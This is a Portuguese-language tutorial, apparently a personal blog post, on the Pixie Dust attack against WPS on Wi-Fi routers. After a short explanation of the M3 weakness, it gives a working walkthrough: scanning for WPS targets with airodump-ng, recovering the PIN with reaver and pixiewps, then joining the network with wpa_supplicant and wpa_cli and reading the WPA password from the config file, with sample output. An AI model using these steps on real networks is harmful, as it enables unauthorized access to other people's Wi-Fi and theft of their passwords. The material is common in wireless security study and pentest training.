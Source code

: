 ```yaml
---
title: 'pixie-dust attack'
date: '2022-09-18'
description: 'Nesse artigo faço um pequena demonstração de como exlporar uma falha do protocolo WPS de roteadores'
---
```



## pegando psk com pixie-dust attack 

texto original: https://github.com/geleiaa/wirelesssss/blob/main/WPS_pixiedust.md

#### O pixie dust attack consiste em realizar a quebra do WPS de maneira offline. O método offline envolve tentar apenas um PIN aleatório e coletar algumas informações durante o processo. Esses dados podem ser usados posteriormente para tentar o ataque pixie-dust.
#### A vulnerabilidade está na mensagem M3: no corpo da mensagem é utilizado duas chaves AES de 128 bits randômicas (E-S1 e E-S2) para encriptação da primeira e da segunda metade do PIN, respectivamente. Se as duas chaves forem descobertas, é possível recuperar o número PIN com um ataque offline em menos de um segundo, em vez de “chutar” o número PIN no roteador, processo que pode levar de 8 a 12 horas (mais informações sobre o brute-force offline aqui: [Hacklu2014_offline_bruteforce_attack_on_wps.pdf](http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)

>___
## Parte pratica
Com a interface em modo monitor você pode "sniffar" as redes em volta para identificar um alvo em potêncial, usando o airodump-ng adicionando a flag **--wps** dessa forma:

#### *sudo airodump-ng --wps (interface)*


> Repare na coluna WPS 

```bash
 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ]
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER  WPS  AUTH  ESSID
                                                                                                             
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN          2.0           NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP     1.0           bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP    2.0    PSK    teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy
```


Os APs com o WPS ativado vão aparecer nessa coluna junto com a versão do wps que o AP possui. Quando o wps está desativado essa coluna ficara vazia.

>___
Depois de ter identificado seu alvo, a ferramenta para fazer o ataque foi a *Reaver* (link no final da pg) com o seguinte comando:
  

#### *reaver -i (interface) -c (channel) -b (mac do ap) -vv -K* (precisa da flag -vv)

O resultado pode variar um pouco porque depende muito do roteador que está sendo atacado. Essa falha é relativa ao firmware do roteador, não sendo todos os roteadores vulneráveis. Você pode ver alguns exemplos de saida aqui -> https://forums.kali.org/showthread.php?25123-Reaver-modfication-for-Pixie-Dust-Attack ou pesquisar por conta própria... mas saída/resultado que deu certo pra mim foi semelhante a essa:

```bash
$ sudo reaver -i <interface> -c <channel> -b 01:D0:30:4A:49:45 -vv -K 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching wlan0 to channel 2
[+] Waiting for beacon from 01:D0:30:4A:49:45
[+] Received beacon from 01:D0:30:4A:49:45
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 01:D0:30:4A:49:45 (ESSID: "nome qualquer")
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e 
313ff74331338ed2d66cc580c997ee805df43626d3dfda23328688e110e5676b7aa9d36640956c1d5b712835a0b07a7ec2ac2363e44336232cf5c11517096bad3c95bc2db3f537c41cf0a80036e
5b680e3e1e130a9303c14f77abca481e4911f590148387c6dc2839e2820a028f9d9c0767d25216c01260c011259cbd30c846ada8da47e5dc9d3dbe99953d9f8ef547d42b3152f581e790aae608c
6b112aac298cb121a60b6ec8849f23497234685b05b53a632526765dbf12642ed0ee8213fb -s c6987c052c458512a2972cfacc923e4c61c9502723676b9493d1b783062ecg16 -z 
72e3a7f04f5eb1cdd4602fb15443099f82d56a02ccad15774ea873c84b4b1b0b -a 3c63e889ae1d26a4441e2f9fbf7b673ff4aee85889383d88dc3707253d155d6b -n 
db396a9e4066be20697a0e236d3aaef7 -r 
29722c42863986dd84a965db99fca766e49c04e58c70f3cc0526b1d6efa0798d3a8023d533f87ea70g6551e50274d40e6c19dd6b3842b496e8c5fc2efc62dd67dc0ad5276aa21321fb68a70bbe6
9d6d6f27e5fb61ff29411a35c9d8e7084d8920cba3656a628ed5e7559ce53804ed85ea840221a73e8fb277c1ff86be187fb4008608c1f086637b045078cfa4c5dfe797d10d866322331866a6cf8
1651af877ad5f074be7c94a5db570d9c467dbf6aa048b48e16bfe98a265657a764b4d09fa7a

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x2e6f2d71
 [*] Seed ES1: 0x7f3d488f
 [*] Seed ES2: 0x4104ca5d
 [*] PSK1:     e7868366f236b343dc0777209b87a214
 [*] PSK2:     95a24c483176fadddc4469a305e893b2
 [*] ES1:      3dd1a7d64b65cbe1bd80ab4359css07e
 [*] ES2:      5502dec86e7ae960a247f6b8aa9c513d
 [+] WPS pin:  18630248   <==== PIN AQUI

 [*] Time taken: 0 s 294 ms
``` 

(você pode executar o comando "pixiewps" sugerido pela própria ferramenta, que o resultado trará o mesmo pin recuperado)

>___
Dependendo do resultado do ataque, o reaver consegue recuperar apenas o PIN do WPS como mostrado acima. Nos meus testes foi esse resultado que consegui, então a idéia é essa: *recuperar o PIN com o ataque offline pixie-dust, depois se conectar ao AP com o pin recuperado usando o passo a passo abaixo, para depois pegar o psk*, vam bora!!!

***
#### 1. Crie o arquivo com o nome *wpa_supplicant.conf* no diretório */etc/* e nesse arquivo vão as seguintes linhas:


> ctrl_interface=/var/run/wpa_supplicant
>  
> ctrl_interface_group=0
>  
> update_config=1
  

#### 2. Inicie o wpa_supplicant, com o arquivo de configuração */etc/wpa_supplicant.conf* com o seguinte comando:
  
> $ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf


  
#### 3. Em outro terminal inicie o *wpa_cli* para realizar a conexão ao AP por meio do número PIN com o seguinte comando:

> $ wpa_cli wps_reg 74:EA:3A:E1:E8:66 02283470

                         ^                ^
                         |                |
>                    (mac do ap)     (pin wps)

  
  
#### 4. O wpa_supplicant fará a conexão com AP. No terminal em que o *wpa_supplicant* foi iniciado será retornado uma mensagem de que a conexão foi bem-sucedida:

```bash
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ioctl[SIOCSIWENCODEEXT]: Invalid argument
wlan0: Failed to initiate AP scan
wlan0: Trying to associate with 74:ea:3a:e1:e8:66 (SSID='TP-LINK_E1E866' freq=2462 MHz)
wlan0: Associated with 74:ea:3a:e1:e8:66
wlan0: WPA: Key negotiation completed with 74:ea:3a:e1:e8:66 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 74:ea:3a:e1:e8:66
completed (auth) [id=1 id_str=]
```
  
  
#### 5. Visualize o conteúdo do arquivo */etc/wpa_supplicant.conf* com a senha do AP:

```bash
$ cat /etc/wpa_supplicant.conf
network={
ssid="TP-LINK_E1E866"
bssid=74:ea:3a:e1:e8:66
psk="senha123" <----- AQUI Ó
proto=RSN
key_mgmt=WPA-PSK
pairwise=CCMP
auth_alg=OPEN
}
```

referencia:
- https://novatec.com.br/livros/pentest-redes-sem-fio/
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access#WPS_PIN_recovery
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup
- https://github.com/wiire-a/pixiewps
- https://github.com/t6x/reaver-wps-fork-t6x
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)
